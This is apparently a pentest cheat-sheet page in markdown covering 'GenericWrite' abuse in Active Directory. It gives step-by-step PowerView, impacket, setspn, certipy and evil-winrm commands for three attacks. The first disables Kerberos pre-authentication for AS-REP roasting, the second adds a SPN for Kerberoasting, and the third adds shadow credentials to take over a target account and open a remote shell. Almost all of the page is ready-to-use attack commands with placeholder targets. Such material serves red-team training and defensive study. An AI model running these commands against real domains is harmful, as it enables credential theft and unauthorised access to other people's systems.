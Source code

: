 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["Shadow Credentials", "Pass-The-Ticket", "Kerberoasting", "Genericwrite", "Powerview", "Asreproast", "Credential Dumping", "Ticket Granting Ticket", "Active Driectory", "Windows"]
---
```


### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Check target user

```console
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

```console
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### 4. AS-REP Roasting

```console
# In local linux machine
impacket-GetNPUsers '<DOMAIN>/<USER>' -no-pass -dc-ip <DC>
```

{{< /tabcontent >}}

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add a SPN

```console
# eg. MSSQLSvc/example.com:1433
setspn -a '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' '<DOMAIN>\<TARGET_USER>'
```

```console
# Check
Get-DomainUser '<TARGET_USER>' | Select serviceprincipalname
```

#### 4. Get SPN

```console
Get-DomainSPNTicket -SPN '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' -Credential $Cred
```

{{< /tabcontent >}}

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Request a ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

#### 2. Add shadow credentials

```console
export KRB5CCNAME=<USER>.ccache
```

```console
# Pre-check (Optional)
certipy-ad find -username '<USER>@<DOMAIN>' -k -target <TARGET_DOMAIN>
```

```console
# Add shadow credentials
certipy-ad shadow auto -username '<USER>@<DOMAIN'> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

#### 3. Remote

```console
# Edit '/etc/krb5.conf' (All uppercase)
[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

<br>

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

{{< /tabcontent >}}
